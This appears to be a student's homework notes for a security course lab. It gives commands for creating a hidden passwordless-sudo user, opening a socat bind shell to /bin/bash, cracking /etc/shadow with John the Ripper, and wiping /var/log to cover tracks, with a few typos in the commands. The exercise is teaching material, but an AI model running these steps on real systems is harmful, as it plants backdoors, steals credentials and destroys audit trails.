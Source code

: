 
## Bash Scripts for Unit 6 Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- useradd --system --no-create-home sysd

Give your secret user a password. 
- sudo passwd sysd

Give your secret user a system UID < 1000.
- useradd --system --no-create-home sysd

Give your secret user the same GID
- useradd --system --no-create-home sysd

Give your secret user full sudo access without the need for a password.
- sudo visduo
- sysd ALL=(ALL) NOPASSWD:ALL

Test that sudo access works without your password
- sudo -l

## Allow ssh access over port 2222.
nano /etc/ssh/sshd_config
change #Port 22 to Port 2222 in nano.
systemctl restart ssh

Note the IP address of this system:
- ifconfig
Exit the root accout.
- exit
SSH to the machine using your sysd account and port 2222
- ssh sysd@172.17.149.133 -p 2222
Use sudo to switch to the root user
- sudo su root

### Create a backdoor with socat
- Install socat
  - sudo apt install socat
- Run Socat command in the background
  - socat TCP4-Listen:3177,fork EXEC:/bin/bash
- Explain each part of the `socat` command:
  - socat TCP4-Listen:3177,fork EXEC:/bin/bash
  - socat STDIO TCP4:<Your-VM-IP-address>:3177
- Exit the SSH session
  - exit
- Test socat connection from your local machine (after the second socat command)
  - ls 
- Close the `socat` connection.
  - exit

## Crack _all_ the passwords
Ssh back to the system using your sysd account
- ssh sysd@172.17.149.133 -p 2222
- Use John to crack the entire /etc/shadow file
    - cd Documents
    - ls -a
    - john -rules -wordlist=.pass_list.txt
    - john -salts:-2 /ets/shadow

## Cover your tracks
- Use socat and a for loop to clear all system logs.
- socat STDIO TCP4:192.168.47.136:3177
for log in $(ls /var/log); do echo '' > /var/log/${log} ;done 
